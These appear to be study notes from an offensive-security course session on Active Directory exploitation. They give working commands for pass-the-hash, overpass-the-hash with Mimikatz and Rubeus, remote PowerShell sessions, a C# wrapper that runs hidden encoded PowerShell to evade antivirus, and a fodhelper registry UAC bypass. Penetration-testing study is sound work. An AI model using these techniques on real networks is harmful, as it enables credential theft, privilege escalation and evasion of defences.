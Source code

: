 # OffSec Live: PEN-200

author:: Nathan Acks  
date:: 2022-09-02

# Active Directory Enumeration & Exploitation, Part 4

LM hashes aren't used in WIndows anymore, and often empty or garbage values will work fine when passing a full NTLM hash (only the NT hash is important).

```bash
proxychains python3 \
	/usr/share/doc/python3-impacket/examples/psexec.py \
	-hashes ${LM_HASH}:${NT_HASH} ${USER}@${MACHINE}
```

There's a technique called "overpass the hash" that allows you to take advantage of accounts that are authorized to interact with services but *not* machines on a domain. The idea behind overpass-the-hash is to request a ticket from the domain controller for one user but then use that as the authentication credentials for a different user when running a command. This allows you to be logged in as, say, a service account but then use the credentials for a domain admin to interact with the domain controller. Stealthy!

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::pth /user:$USER /domain:$DOMAIN /ntlm:$NT_HASH /run:$COMMAND"'
```

Note that the "NTLM" hash in the Mimikatz command line is actually just the NT hash.

Another reason to use overpass-the-hash is to be able to interact with services that are restricted to certain users who do *not* have login permissions. This is a common(ish) technique for securing services on a domain.

Note that whenever an overpass-the-hash attack, the output of whoami will become desynced to your network credentials - whoami will still show the user you're logged into, but the domain credentials you use on the network will be those of the user whose hash you "overpassed".

Rubeus can be used to *remove* tickets from an account.

```powershell
Rubeus.exe purge
```

You can also use Rubeus to grab new tickets from a domain controller for a user in an overpass-the-hash attack.

```powershell
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /rc4:$NT_HASH /ptt
```

Note that Rubeus is generally detected by Windows AV these days.

The whole point of all of this is that when interacting with remote computers in an Active Directory domain, what matters is the *hash* you present, *not* the local user!

Many large companies will enable PowerShell Remoting on all machines in order to ease IT support burdens (by default, remoting is only enabled on domain controllers).

```powershell
Invoke-Command -ComputerName $MACHINE `
	-ScriptBlock {$COMMANDS_TO_RUN}
```

Remoting can be used to create a reverse shell.

```powershell
$SESSION_NAME = New-PSSession -ComputerName "$MACHINE"
Enter-PSSession -Session $SESSION_NAME
```

You need to be logged in as a user with permission to use PowerShell for remote administration, however, or be using overpass-the-hash to get an equivalent set of credentials.

C# can be used to bypass AV (at least as of September 2022) - just create a C# wrapper that fires up a PowerShell one-liner. (Sometimes this will need to be modified slightly to bypass AV, but generally you don't have to tweak this code much - C# analysis doesn't seem to be particularly robust for most AV products.)

```c#
using System;
namespace Game
{
	public class Program
	{
		public static void Main() {
			System.Diagnostics.Process P = new System.Diagnostics.Process();
			System.Diagnostics.ProcessStartInfo SI = new System.Diagnostics.ProcessStartInfo();
			SI.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
			SI.FileName = "powershell.exe";
			SI.Arguments = "-enc $BASE64_ENCODED_SCRIPT_TO_RUN";
			P.StartInfo = SI;
			P.Start();
		}
	}
}
```

This can be compiled using PowerShell - perhaps even on the target itself. What's the advantage to doing this? You can use Invoke-Mimikatz to run this binary remotely to quickly obtain a remote shell with the permissions of the user you're impersonating with overpass-the-hash (this is a way of getting a shell on a machine that you can interact with, but aren't allowed to open a shell on directly).

```powershell
$code = @"
using System;
namespace Game
{
	public class Program
	{
		public static void Main() {
			System.Diagnostics.Process P = new System.Diagnostics.Process();
			System.Diagnostics.ProcessStartInfo SI = new System.Diagnostics.ProcessStartInfo();
			SI.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
			SI.FileName = "powershell.exe";
			SI.Arguments = "-enc $BASE64_ENCODED_SCRIPT_TO_RUN";
			P.StartInfo = SI;
			P.Start();
		}
	}
}
"@
Add-Type -outputtype consoleapplication -outputassembly $BINARY_NAME -TypeDefinition $code -Language CSharp
```

The fodhelper binary can be abused to gain an admin shell on Windows boxes with two registry key changes.

```powershell
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe"
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
```

Note that if you try to put powershell.exe into this, Defender will block the shell from being opened (in fact, the key value will be cleared on run). Other AV tools will even detect cmd.exe. It looks like this can be bypassed, however, by using the CurVer registry key to point fodhelper.exe to a different registry location:

```powershell
New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" `
	-Name "(default)" -Value "cmd.exe /c start powershell.exe" -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" `
	-Name "(default)" -value ".pwn" -Force
```

* [Utilizing Programmatic Identifiers (ProgIDs) for UAC Bypasses](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)
